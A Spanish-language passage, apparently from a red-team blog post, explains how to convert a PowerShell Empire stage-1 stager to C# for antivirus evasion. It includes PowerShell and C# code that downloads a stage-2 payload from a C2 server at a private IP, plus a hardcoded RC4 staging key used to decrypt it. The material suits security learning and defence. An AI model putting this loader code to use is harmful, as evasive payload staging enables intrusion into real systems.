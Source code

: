 Luego, debemos especificar la dirección del servidor, el puerto y la ubicación de destino, en nuestro caso esta es la URL completa http://192.168.6.119:80/CWoNaJLBo/VTNeWw11212/. Después de eso, llamamos al método DownloadData de la clase Web.Client para guardar los datos en la variable $data. Si tienes curiosidad acerca de los datos con tenidos en esta $data (stage 2) generalmente se encuentra en /opt/Empire/data/agent/stagers/http.ps1.

```
# PoweShell Set Server Address and Download the data.
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t); # Download
 
// C# Set Server Address and Download the data.
string server = "http://192.168.6.119:8081";
string target = "/CWoNaJLBo/VTNeWw11212/";
byte[] data = wc.DownloadData(server + target); // Download
```

# Comunicación Criptológicamente Segura
 
Una de las mejores cosas de Empire, y por qué es tan difícil de detectar para los IPS, es que asegura criptológicamente la comunicación mediante el uso de cifrado de flujo RC4. Harmj0y, uno de los colaboradores de PowerEmpire, creó una publicación de blog sobre la implementación de RC4 en PowerShell. Te invito a leer sobre ella en su [publicación](https://www.harmj0y.net/blog/powershell/powershell-rc4/)
 
Para que **RC4** funcione, necesitaremos 3 piezas, la **clave ($K)**, un **valor aleatorio (denominado $ IV)** y los **datos (stage 2)**.
 
La **clave** se genera cuando ejecuta su Launcher, en PowerEmpire se llama **StagingKey**.

![pse_stagingkey](/assets/images/posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES/pse_stagingkey.png)

```
// PowerShell Key Value for Decryption
$K=[System.Text.Encoding]::ASCII.GetBytes('fdcece0a22c10f83dccc8f17c95a33d4');
 
// C# Key value for decryption
string key = "fdcece0a22c10f83dccc8f17c95a33d4";
byte[] K = Encoding.ASCII.GetBytes(key);
```

El **IV** es un valor aleatorio que obtuvimos de los datos (stage 2) que descargamos, ese valor son los primeros 4 bytes del conjunto de datos. El IV es responsable de hacer aleatoria la comunicación con el servidor de Empire, ya que este valor es elegido al azar cada vez que descarga la segunda etapa (stage 2).

